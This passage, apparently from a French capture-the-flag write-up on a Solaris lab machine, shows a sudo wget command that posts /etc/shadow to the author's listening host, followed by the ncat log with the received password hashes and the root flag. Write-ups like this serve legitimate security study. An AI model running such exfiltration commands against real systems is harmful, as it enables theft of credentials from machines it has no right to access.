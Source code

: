 J'ai cherché du côté du fichier `wgetrc` mais il ne permet pas de faire exécuter des commandes unix :'(  

Finalement l'idée que j'ai retenu est d'utiliser wget pour soumettre en HTTP POST un fichier vers un port qu'on aura auparavant mis en écoute.  

On peut par exemple s'envoyer le fichier shadow ainsi :  

```bash
sudo /usr/bin/wget --post-file /etc/shadow http://10.10.15.90:8080/
```

Et c'est dans la poche :  

```console
devloop@kali:/tmp$ ncat -l -p 8080 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.76.
Ncat: Connection from 10.10.10.76:61174.
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.90:8080
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 634

root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

De la même façon, on peut exfiltrer le flag root (`fb40fab61d99d37536daeec0d97af9b8`)

*Published September 29 2018 at 20:09*
